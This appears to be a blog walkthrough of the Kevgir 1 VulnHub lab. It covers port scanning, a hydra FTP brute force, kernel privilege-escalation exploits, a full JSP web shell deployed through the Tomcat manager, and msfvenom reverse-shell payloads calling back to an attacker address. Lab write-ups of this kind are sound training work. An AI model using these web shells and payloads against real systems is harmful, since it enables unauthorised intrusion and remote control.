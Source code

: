 ```yaml
---
layout: post
title: "vulhub:kevgir1"
date: 2016-05-02 14:42:52 -0500
comments: true
categories: [vulhub,Joomla]
---
```



From [Vulhub](https://www.vulnhub.com/entry/kevgir-1,137/)

###Tools:

* netdiscover
* Nmap
* hydra
* msfvenom 
* joomscan


<!--more-->

Use netdiscover to detect target IP address

`netdiscover -i eth0 -r 192.168.79.0/24`

{% img  /images/blog/vulhub/kevgir1/Selection_001.png   [title manually exploit [alt text]] %}

192.168.79.174 is the target.

Then run nmap to detect opening ports and running services on the target machine.

`nmap -sV -v -O -A -T5 192.168.79.174 -p-`

{% img  /images/blog/vulhub/kevgir1/Selection_004.png   [title manually exploit [alt text]] %}


{% img  /images/blog/vulhub/kevgir1/Selection_002.png   [title manually exploit [alt text]] %}

Let attack ftp now.

`hydra -L ~/tools/SecLists/Usernames/top_shortlist.txt -P ~/tools/SecLists/Passwords/john.txt  -u  -s 25 192.168.79.174 ftp`

get the user name and password

{% img  /images/blog/vulhub/kevgir1/Selection_005.png   [title manually exploit [alt text]] %}

try ssh using same username and password

`ssh -p 1322 admin@192.168.79.174`


FTP attack DONE


Now it is privilege escalation time

`uname -a`, get the result:

{% img  /images/blog/vulhub/kevgir1/Selection_011.png   [title manually exploit [alt text]] %}

`searchsploit 14.04`
{% img  /images/blog/vulhub/kevgir1/Selection_012.png   [title manually exploit [alt text]] %}

try `/linux/local/37292.c`, copy it to /var/www/html/, use wget to download to target machine, then compile it.

`gcc 37292.c -o attack -static`, then run `attack`

{% img  /images/blog/vulhub/kevgir1/Selection_015.png   [title manually exploit [alt text]] %}

failed, now try harder.


In the searchsploit result, there is a 39166.c. Lets try this one.

{% img  /images/blog/vulhub/kevgir1/Selection_014.png   [title manually exploit [alt text]] %}

GET the ROOT!!





Now let's attack port 8080. Use nikto to scan it first.

`nikto -h 192.168.79.174:8080`

{% img  /images/blog/vulhub/kevgir1/Selection_007.png   [title manually exploit [alt text]] %}

We got the username and password for tomcat manager ... good


log into the manager page and now we can upload webshell....

{% img  /images/blog/vulhub/kevgir1/Selection_008.png   [title manually exploit [alt text]] %}


create webshell(from pentester lab, you may generate it using msfvenom)


```php index.jsp
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>

```

now pack the webshell

```
mkdir webshell
cp index.jsp webshell

cd webshell
jar -cvf ../webshell.war *

```


now upload the webshell.war. After uploading, visit page  `192.168.79.174:8080/webshell/`.

get the shell


{% img  /images/blog/vulhub/kevgir1/Selection_009.png   [title manually exploit [alt text]] %}



Lets use msfvenom to create webshell

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.79.173 LPORT=4444 -f war > webshell1.war`

upload webshell1.war and setup netcat listening on port 4444. After connection is setup. do `python -c 'import pty; pty.spawn("/bin/bash")'`

get the shell

{% img  /images/blog/vulhub/kevgir1/Selection_010.png   [title manually exploit [alt text]] %}

DONE for Tomcat






Now move to port 8081

{% img  /images/blog/vulhub/kevgir1/Selection_016.png   [title manually exploit [alt text]] %}

Its Joomla!.

use tool `joomscan` to scan it

`joomscan -u http://192.168.79.174:8081`


{% img  /images/blog/vulhub/kevgir1/Selection_017.png   [title manually exploit [alt text]] %}


get the version of joomla!

Now find out the vulnerability:

{% img  /images/blog/vulhub/kevgir1/Selection_019.png   [title manually exploit [alt text]] %}

follow the instructions of this vulnerability.



login as admin:

{% img  /images/blog/vulhub/kevgir1/Selection_020.png   [title manually exploit [alt text]] %}


create php reverse shell:

`msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.79.173 LPORT=6666 -e php/base64 -f raw > shell.php`

In Extension ->Template Manager, edit existing template. Copy the content of the shell.php to it and don't forgot to add <?php and ?>. 

{% img  /images/blog/vulhub/kevgir1/Selection_021.png   [title manually exploit [alt text]] %}


set up the netcat and preview the page. get the shell

{% img  /images/blog/vulhub/kevgir1/Selection_022.png   [title manually exploit [alt text]] %}


now lets try another php webshell

[reverse shell from hacksys team](https://github.com/wg135/webshell-1/blob/master/php/reverseshell-poc.txt)

{% img  /images/blog/vulhub/kevgir1/Selection_023.png   [title manually exploit [alt text]] %}


{% img  /images/blog/vulhub/kevgir1/gameover.jpg   [title manually exploit [alt text]] %}